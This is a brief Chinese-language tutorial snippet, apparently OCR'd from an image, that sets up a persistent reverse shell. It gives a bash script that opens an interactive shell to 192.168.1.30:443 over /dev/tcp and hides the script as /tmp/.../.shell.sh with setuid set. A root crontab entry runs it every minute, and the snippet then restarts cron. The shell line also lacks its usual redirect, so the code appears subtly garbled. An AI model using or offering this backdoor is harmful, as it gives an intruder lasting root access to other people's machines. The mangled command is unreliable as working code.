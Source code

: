 反弹shell+计划任务
```
#!/bin/bash
if netstat -ano | grep -v grep | grep "192.168.1.30" > /dev/null
then
echo "OK" > /dev/null
else
bash -i /dev/tcp/192.168.1.30/443 0>&1
fi
```
chmod +sx /tmp/.../.shell.sh
然后我们需要修改一下 /etc/crontab 让它定时执行。

nano /etc/crontab     在 /etc/crontab 文件末加入这一行。代表每 1 分钟执行一次。
*/1 * * * * root /tmp/.../.shell.sh

最后重启一下 crond 的服务。（不同发行版重启方式不一样，自行查询）
service cron reload
service cron start

